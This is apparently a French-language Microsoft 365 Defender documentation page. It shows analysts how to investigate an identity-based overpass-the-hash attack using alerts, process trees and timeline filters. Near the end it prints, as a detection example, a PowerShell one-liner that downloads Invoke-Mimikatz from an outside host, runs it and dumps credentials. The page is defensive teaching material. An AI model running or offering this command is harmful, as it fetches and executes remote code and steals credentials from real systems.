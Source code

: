```yaml
---
title: Exemple d’attaque basée sur l’identité
description: Parcourez un exemple d’analyse d’une attaque basée sur l’identité.
keywords: incidents, alertes, examen, corrélation, attaque, machines, appareils, utilisateurs, identités, identité, boîte aux lettres, e-mail, 365, microsoft, m365, réponse aux incidents, cyberattaque
search.product: eADQiWindows 10XVcnh
ms.service: microsoft-365-security
ms.subservice: m365d
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365solution-firstincident
- highpri
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.openlocfilehash: c96e9bef376ad7f36386e8aed78b97cd01332805
ms.sourcegitcommit: 10e6abe740e27000e223378eb17d657a47555fa8
ms.translationtype: MT
ms.contentlocale: fr-FR
ms.lasthandoff: 08/31/2022
ms.locfileid: "67480293"
---
```

# <a name="example-of-an-identity-based-attack"></a>Exemple d’attaque basée sur l’identité

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**S’applique à :**
- Microsoft 365 Defender

Microsoft Defender pour Identity peut aider à détecter les tentatives malveillantes de compromission des identités dans votre organisation. Étant donné que Defender pour Identity s’intègre à Microsoft 365 Defender, les analystes de sécurité peuvent avoir une visibilité sur les menaces provenant de Defender pour Identity, telles que les tentatives d’élévation de privilège Netlogon suspectées.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analyse de l’attaque dans Microsoft Defender pour Identity

Microsoft 365 Defender permet aux analystes de filtrer les alertes par source de détection sous l’onglet **Alertes** de la page Incidents. Dans l’exemple suivant, la source de détection est filtrée **sur Defender pour Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtrage de la source de détection dans Microsoft Defender pour Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

La sélection de l’alerte **d’attaque par dépassement de hachage suspecte** est dirigée vers une page dans Microsoft Defender for Cloud Apps qui affiche des informations plus détaillées. Vous pouvez toujours en savoir plus sur une alerte ou une attaque en sélectionnant **En savoir plus sur ce type d’alerte** pour lire une [description des suggestions d’attaque et de](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) correction.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Alerte d’attaque de dépassement depass-the-hash suspectée" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Examen de la même attaque dans Microsoft Defender pour point de terminaison

Un analyste peut également utiliser Defender pour point de terminaison pour en savoir plus sur l’activité sur un point de terminaison. Sélectionnez l’incident dans la file d’attente des incidents, puis sélectionnez l’onglet **Alertes** . À partir de là, ils peuvent également identifier la source de détection. Une source de détection étiquetée EDR signifie Endpoint Detection and Response, qui est Defender pour point de terminaison. À partir de là, l’analyste sélectionne une alerte détectée par EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Détection et réponse des points de terminaison dans le portail Microsoft Defender pour point de terminaison" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

La page d’alerte affiche diverses informations pertinentes, telles que le nom de l’appareil concerné, le nom d’utilisateur, l’état de l’examen automatique et les détails de l’alerte. L’histoire de l’alerte représente une représentation visuelle de l’arborescence de processus. L’arborescence de processus est une représentation hiérarchique des processus parents et enfants liés à l’alerte.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Arborescence de processus d’alerte dans le Microsoft Defender pour point de terminaison" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Chaque processus peut être développé pour afficher plus de détails. Les détails qu’un analyste peut voir sont les commandes réelles qui ont été entrées dans le cadre d’un script malveillant, des adresses IP de connexion sortante et d’autres informations utiles.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Détails du processus dans le portail Microsoft Defender pour point de terminaison" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
En sélectionnant **Afficher dans la chronologie**, un analyste peut explorer encore plus loin pour déterminer l’heure exacte du compromis. 

Microsoft Defender pour point de terminaison pouvez détecter de nombreux fichiers et scripts malveillants. Toutefois, en raison de nombreuses utilisations légitimes pour les connexions sortantes, PowerShell et l’activité en ligne de commande, une activité serait considérée comme bénigne jusqu’à ce qu’elle crée un fichier ou une activité malveillant. Par conséquent, l’utilisation de la chronologie permet aux analystes de mettre l’alerte en contexte avec l’activité environnante afin de déterminer la source d’origine ou l’heure de l’attaque qui autrement est masquée par le système de fichiers commun et l’activité utilisateur. 

Pour utiliser la chronologie, un analyste commence au moment de la détection d’alerte (en rouge) et fait défiler vers le bas dans le temps pour déterminer quand l’activité d’origine qui a conduit à l’activité malveillante a réellement démarré. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Heure de début de l’analyste pour la détection des alertes" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Il est important de comprendre et de distinguer les activités courantes telles que les connexions Windows Update, le trafic d’activation de logiciels approuvés Windows, d’autres connexions courantes aux sites Microsoft, l’activité Internet tierce, l’activité Configuration Manager de point de terminaison Microsoft et d’autres activités bénignes provenant d’activités suspectes. Une façon de faire la distinction consiste à utiliser des filtres de chronologie. Il existe de nombreux filtres qui peuvent mettre en évidence une activité spécifique tout en filtrant tout ce que l’analyste ne souhaite pas afficher. 

Dans l’image ci-dessous, l’analyste a filtré pour afficher uniquement les événements réseau et traiter. Ce critère de filtre permet à l’analyste de voir les connexions réseau et les processus entourant l’événement où le Bloc-notes a établi une connexion avec une adresse IP, que nous avons également vu dans l’arborescence des processus. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Utilisation du Bloc-notes pour établir une connexion sortante malveillante" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

Dans cet événement particulier, le Bloc-notes a été utilisé pour établir une connexion sortante malveillante. Toutefois, les attaquants utilisent souvent iexplorer.exe pour établir des connexions pour télécharger une charge utile malveillante, car les processus iexplorer.exe sont généralement considérés comme une activité régulière de navigateur web.

Un autre élément à rechercher dans la chronologie serait les utilisations de PowerShell pour les connexions sortantes. L’analyste recherche les connexions PowerShell réussies avec des commandes telles qu’une `IEX (New-Object Net.Webclient)` connexion sortante à un site web hébergeant un fichier malveillant. 

Dans l’exemple suivant, PowerShell a été utilisé pour télécharger et exécuter Mimikatz à partir d’un site web :

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Un analyste peut rapidement rechercher des mots clés en tapant le mot clé dans la barre de recherche pour afficher uniquement les événements créés avec PowerShell. 

## <a name="next-step"></a>Étape suivante

Consultez le chemin d’accès à l’enquête sur le [hameçonnage](first-incident-path-phishing.md) .

## <a name="see-also"></a>Voir aussi

- [Vue d’ensemble des incidents](incidents-overview.md)
- [Gérer des incidents](manage-incidents.md)
- [Examiner des incidents](investigate-incidents.md)
